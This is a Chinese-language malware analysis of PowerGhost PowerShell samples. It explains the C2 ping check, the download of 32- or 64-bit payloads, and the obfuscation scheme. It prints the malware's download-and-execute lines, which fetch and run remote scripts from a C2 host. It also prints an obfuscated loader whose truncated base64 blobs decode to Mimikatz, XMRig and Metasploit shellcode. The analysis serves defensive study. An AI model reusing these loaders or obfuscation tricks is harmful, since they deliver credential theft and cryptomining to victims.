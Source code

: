 - 32 位：`/w/antitrojan.ps1`
- 64 位：`/w/antivirus.ps1`

```powershell linenums="127"
if ((geT-WmIObjECt Win32_OperatingSystem).osarchitecture.contains('32')){
    iex(new-object Net.WebClient).DownloadString("http://$nic/w/antitrojan.ps1")
}else{
    iex(new-object Net.WebClient).DownloadString("http://$nic/w/antivirus.ps1")
}
```

## antitrojan.ps1

原始样本：[antitrojan.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/antitrojan.ps1)

```powershell linenums="1"
$miiiiii="TVqQAAMAAAAEAAAA//8AALgAAAA..."
$mmmmmmm="TVqQAAMAAAAEAAAA//8AALgAAAA..."
$fffffff="KE5ldy1vYkpFQ3QgaW8uc1RSRUF..."
$ssssssss="McBAD4RTBAAAYOgAAAAAW+gjAA..."
 if($args.count -gt 0){
    $defun=[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($fffffff))
    I`EX $defun
    Invoke-Command -ScriptBlock $RemoteScriptBlock -ArgumentList @($mmmmmmm, $mmmmmmm, 'Void', 0, '', '')
    return
}
 iEx ([STrIng]::joIN('', ('28s4eH45r77...'-sPLit 'I'-SPLiT '@' -SPLIt 'r'-sPLiT';'-SpliT 'j' -sPlIT 'W' -SpLiT's' -sPLiT 'H' | ForEACh-OBJEcT { ( [CHaR] ( [CoNveRt]::TOInT16(($_.TOSTRINg()),16))) })) )
```

- `$miiiiii` 解码之后是 PE 文件，[VirusTotal 报告为 Mimikatz](https://www.virustotal.com/gui/file/be3414602121b6d23fc06edb6bd01ad60b584485266120c242877bbd4f7c8059)。
- `$mmmmmmm` 解码之后是 PE 文件，[VirusTotal 报告为 XMRig](https://www.virustotal.com/gui/file/50b4458f5c8375af54f1dbef8e1fd5dbfc3c56ed91ae9f4dff9b89a65f3e3986)。
- `$fffffff` 解码之后是 PowerShell 文件，含有多种利用函数
- `$ssssssss` 解码之后是 ShellCode 文件，[VirusTotal 报告为 Metasploit](https://www.virustotal.com/gui/file/50b4458f5c8375af54f1dbef8e1fd5dbfc3c56ed91ae9f4dff9b89a65f3e3986)
- 如果执行时没有任何命令行参数，则运行 `$fffffff` 漏洞利用函数和 `$mmmmmmm` 挖矿软件，否则运行 `antitrojan.ps1` 本体（第 11 行）

本体的混淆方式与[vercheck.ps1 的混淆方式](#vercheckps1)一致，反混淆过程省略。

反混淆后的样本：[antitrojan.ps1](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan.ps1)。

1-76 行与 `vercheck.ps1` 的 31-106 行一模一样，通过 ping 检查可以连接的 C2 服务器。

77-82 行，如果当前系统是 64 位的，选择下载执行 `/w/antivirus.ps1`。

同理，我猜测 `antivirus.ps1` 中也会判断系统是否是 32 位，并选择下载执行 `/w/antitrojan.ps1`。

这种设计可能是为了确保恶意脚本与目标系统架构相匹配。

```powershell linenums="77"
$nic=$nic+(':'+'443')
if ((geT`-WmI`ObjECt Win32_OperatingSystem).osarchitecture.contains('64')){
    i`EX(NE`W`-oBJE`CT Net.WebClient).DownloadString("http://$nic/w/antivirus.ps1")
    return
}
```
